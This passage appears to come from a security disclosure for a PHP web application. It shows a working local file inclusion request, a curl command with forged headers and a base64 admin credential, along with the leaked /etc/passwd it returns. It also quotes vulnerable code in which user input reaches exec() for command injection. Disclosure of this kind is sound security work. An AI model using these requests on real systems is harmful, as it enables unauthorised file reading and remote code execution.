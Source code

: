 **exploitation :** send a request with header `X-Requested-With` set to `xmlhttprequest`,header `Authorization` set to `Basic YWRtaW46YWRtaW5h` (Basic and base64 of username and password contatinated together with a colon `:` in between. This is to in order to set variable `$_SERVER["REMOTE_USER"]` using HTTP BASIC AUTHORIZATION ). And finally get param `class` set to the path of the file to be included 

```console
$ curl 'http://192.168.0.19/index.php?class=/etc/passwd' -H 'X-Requested-With: xmlhttprequest' -H 'Authorization: Basic YWRtaW46YWRtaW5h' 
 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
wms:x:1000:1000:,,,:/var/www:/bin/bash
callweaver:x:1001:1001:,,,:/var/www:/bin/false
admin:x:1002:1003:Administrator,,,:/home/admin:/bin/bash
openldap:x:1003:1004::/home/openldap:/bin/sh
ejabberd:x:1004:1005::/dev/shm/wmsdb.d/ejabberd:/bin/sh
fetchmail:x:103:65534::/var/lib/fetchmail:/bin/false
snmp:x:105:65534::/var/lib/snmp:/bin/false
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ntp:x:104:104::/home/ntp:/bin/false
nagios:x:106:106::/var/log/nagios:/bin/false
shellinabox:x:107:107:Shell In A Box,,,:/var/lib/shellinabox:/bin/false
freerad:x:108:108::/etc/freeradius:/bin/false
statd:x:109:65534::/var/lib/nfs:/bin/false
Cannot redirect to class file%
```
### RCE (using auth bypass)
the endpoint `features/make_keys_pdf.php` uses a user supplied value in a command without any sanitization
```php
require_once "../init.php";
if (preg_match("/(cticonnect)|(collaboration)/", $_SERVER["REQUEST_URI"])) {
    //REDACTED
} else {
    include_once file_exists("auth.php") ? "auth.php" : "../auth.php";
}
require_once "functions.php";
if (isset($_GET["set"])) {
/*
...
REDACTED
...
*/
	$file = exec("lua /var/www/lua/make_keys_pdf.lua " . json_encode($_GET["set"]) . " " . json_encode(json_encode($arr_fkeys)));
```